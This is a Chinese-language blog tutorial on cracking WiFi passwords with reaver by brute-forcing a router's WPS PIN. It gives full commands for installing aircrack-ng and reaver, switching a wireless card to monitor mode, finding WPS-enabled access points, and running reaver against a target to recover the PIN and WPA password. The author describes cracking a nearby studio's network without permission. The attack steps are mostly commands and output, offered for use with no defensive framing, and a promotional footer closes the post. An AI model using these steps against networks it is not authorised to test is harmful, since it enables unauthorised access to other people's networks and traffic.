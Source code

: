 ```yaml
---
layout: post
category: curleyg-code-hack
title: 使用reaver傻瓜式破解wifi之利用路由器WPS漏洞
tagline: by CurleyG
tag: [hack,curleyg-code-hack]
excerpt: 使用reaver傻瓜式破解wifi之利用路由器WPS漏洞
lock: need
---
```


# 使用reaver傻瓜式破解wifi之利用路由器WPS漏洞

跟这篇破解教程一样，网上破解教程多是基于路由器的WPS漏洞破解，但是这样的路由器只占少数。一般wifi是依据WPA/WPA2加密的，因此想要破解一般的wifi，还得破解这个协议，虽然近期这个协议也被破解了，不过也是很不容易的。

 刚入门破解，不是很熟悉，在网上找各种破解资料，终于破解成功了临近工作室的wifi，沾沾自喜~
 本文破解wifi针对一些路由器的WPS（Wi-fi protected setup）漏洞,尝试很多次抓包PIN码，破解2-3天，正常来说是一定能抓到正确的PIN码的。
 一个路由器对应唯一的MAC和PIN，而一旦得到MAC和PIN，通过reaver工具，路由密码等信息就可以很快得出来。

 1.安装依赖包：

```bash
sudo apt-get install -y libpcap-dev
libsqlite3-dev sqlite3 libpcap0.8-dev libssl-dev build-essential iw tshark subversion
```

 2.安装aircrack-ng：

```bash
svn co http://svn.aircrack-ng.org/trunk/ aircrack-ng
cd aircrack-ng/
make (aircrack-ng源码安装参考http://www.tuicool.com/articles/MfUjii)
sudo make install
```

 3.安装reaver:

 在https://pan.baidu.com/s/1kUdvM1D下载reaver

```bash
tar zxvf reaver-1.4.tar.gz
cd reaver-1.4/src
./configure
make
sudo make install
```

4.如果安装成功后，会有airmon-ng,airodump-ng,reaver等命令可用(如果没有ethtool,要安装：apt-get install ethtool)

 5.开始破解：(参考http://www.she.vc/article/18-108334-0.html http://www.kali.org.cn/thread-20995-1-1.html)
 （1）sudo airmon-ng check kill （关闭进程，部分进程可能影响到后续的操作）

```bash
Found 4 processes that could cause trouble. 
If airodump-ng, aireplay-ng or airtun-ng stops working after 
a short period of time, you may want to run 'airmon-ng check kill' 
 
	PID Name 
	431 avahi-daemon 
	446 dhcpcd 
	470 avahi-daemon 
	512 wpa_supplicant
```

（2）sudo airmon-ng

（3）sudo airmon-ng start wlan1

（4）sudo airmon-ng start wlan1mon （开启网卡，将网卡转换成混杂模式）

```bash
PHY Interface Driver Chipset 
 
phy0 wlan0 brcmfmac_sdio Broadcom 43430 
 
Missing nexutil, cannot switch to monitor mode. 
phy1 wlan1mon mt7601u Ralink Technology, Corp. 
 
(mac80211 monitor mode already enabled for [phy1]wlan1mon on [phy1]10)
```

（5）sudo airodump-ng wlan1mon （查看ap信号强度，破解的wifi信号越强越好）

（6）wash -i wlan1mon -C （查看支持wps的ap）（一种说法是：MB是54e.的可破解，54e不可破解）

 6.（正式破解，在root下）使用reaver：

 因状况调整参数：MAC即BSSID的值，-c后面的数字是CH的值。

 目标信号非常好:

```bash
reaver -i wlan1mon -b MAC -a -S -vv -d0 -c 1
```

 目标信号普通:

```bash
reaver -i wlan1mon -b MAC -a -S -vv -d2 -t 5 -c 1
```

 目标信号一般:

```bash
reaver -i wlan1mon -b MAC -a -S -vv -d5 -c 1
```



 7.每60s重新破解一次，等待三天，密码将会出来

 8.最终得到PIN码（WPS PIN）和密码（WPA PSK），如果密码 被改，只要reaver加上-p命令
 (reaver -i wlan1mon -b MAC -p PIN码 -vv)，密码又能秒出； 但如果PIN码被改，就要重新破解了。

 9.破解完成后，将网卡转回正常状态（airmon-ng stop wlan1mon）

![](https://img-blog.csdnimg.cn/20181201230356708.png)

![](https://img-blog.csdnimg.cn/20181201230518468.jpg)

备注：reaver时可以随时停止，它自己会保存进度

 升级破解固件[http://netsecurity.51cto.com/art/201105/264844_all.htm](http://netsecurity.51cto.com/art/201105/264844_all.htm)
 
 ## 写在最后
 
 > 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！
 
 
 ![](https://img-blog.csdnimg.cn/20200906013715889.png)
